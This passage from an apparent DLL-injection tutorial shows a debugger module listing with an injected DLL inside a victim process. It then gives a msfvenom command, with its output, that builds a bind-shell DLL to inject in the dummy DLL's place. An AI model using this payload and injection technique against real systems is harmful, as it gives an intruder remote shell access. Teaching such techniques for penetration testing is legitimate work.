Now if we go back to the victim process and check on the loaded libraries we will see a new one inside:
```
[0x7ffe672b0861]> dmi
0x00400000 0x00418000  C:\Users\lab\Desktop\DUMMYWINDOW.exe
0x7ffe67210000 0x7ffe67405000  C:\Windows\SYSTEM32\ntdll.dll
0x7ffe665f0000 0x7ffe666ae000  C:\Windows\System32\KERNEL32.DLL
0x7ffe64990000 0x7ffe64c59000  C:\Windows\System32\KERNELBASE.dll
0x7ffe664b0000 0x7ffe6654e000  C:\Windows\System32\msvcrt.dll
0x7ffe66b30000 0x7ffe66cd1000  C:\Windows\System32\USER32.dll
0x7ffe65230000 0x7ffe65252000  C:\Windows\System32\win32u.dll
0x7ffe666b0000 0x7ffe666db000  C:\Windows\System32\GDI32.dll
0x7ffe64ec0000 0x7ffe64fcb000  C:\Windows\System32\gdi32full.dll
0x7ffe64cf0000 0x7ffe64d8d000  C:\Windows\System32\msvcp_win.dll
0x7ffe64d90000 0x7ffe64e90000  C:\Windows\System32\ucrtbase.dll
0x7ffe665c0000 0x7ffe665f0000  C:\Windows\System32\IMM32.DLL
0x7ffe62300000 0x7ffe6239e000  C:\Windows\system32\uxtheme.dll
0x7ffe66750000 0x7ffe66aa5000  C:\Windows\System32\combase.dll
0x7ffe66e20000 0x7ffe66f4a000  C:\Windows\System32\RPCRT4.dll
0x7ffe653c0000 0x7ffe654d5000  C:\Windows\System32\MSCTF.dll
0x7ffe66f50000 0x7ffe6701d000  C:\Windows\System32\OLEAUT32.dll
0x7ffe66410000 0x7ffe664ab000  C:\Windows\System32\sechost.dll
0x7ffe62830000 0x7ffe62842000  C:\Windows\SYSTEM32\kernel.appcore.dll
0x7ffe64c60000 0x7ffe64ce3000  C:\Windows\System32\bcryptPrimitives.dll
0x7ffe590a0000 0x7ffe59199000  C:\Windows\SYSTEM32\textinputframework.dll
0x7ffe61cb0000 0x7ffe6200e000  C:\Windows\System32\CoreUIComponents.dll
0x7ffe654e0000 0x7ffe6558d000  C:\Windows\System32\SHCORE.dll
0x7ffe65d40000 0x7ffe65dec000  C:\Windows\System32\advapi32.dll
0x7ffe62010000 0x7ffe62102000  C:\Windows\System32\CoreMessaging.dll
0x7ffe666e0000 0x7ffe6674b000  C:\Windows\System32\WS2_32.dll
0x7ffe63750000 0x7ffe63783000  C:\Windows\SYSTEM32\ntmarta.dll
0x7ffe615e0000 0x7ffe61734000  C:\Windows\SYSTEM32\wintypes.dll
0x7ffe66cf0000 0x7ffe66e1a000  C:\Windows\System32\ole32.dll
0x7ffe65df0000 0x7ffe65e99000  C:\Windows\System32\clbcatq.dll

0x66800000 0x6681a000  C:\Users\lab\Documents\projects\DLLINJECT1\dummydll.dll

0x7ffe54ea0000 0x7ffe54f4c000  C:\Windows\SYSTEM32\TextShaping.dll
[0x7ffe672b0861]>
```
And that's it, a MessageBox will prompt on the screen!
#### Generating an evil DLL with msfvenom

But are we injecting DummyDLL on the victim? Well, we can either port our malware to the DLL format by doing minor changes to it, or we can even use the metasploit framework in our pentests to generate evil DLL's ready to be injected using this technique using the following command:
```
┌──(lab㉿kali)-[~]
└─$ msfvenom -p windows/shell/bind_tcp LHOST=0.0.0.0 LPORT=8081 -f dll >  ./bindshell.dll
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x86 from the payload
No encoder specified, outputting raw payload
Payload size: 326 bytes
Final size of dll file: 8704 bytes
```
Then we can simple edit the code previously shown and we are good to go.
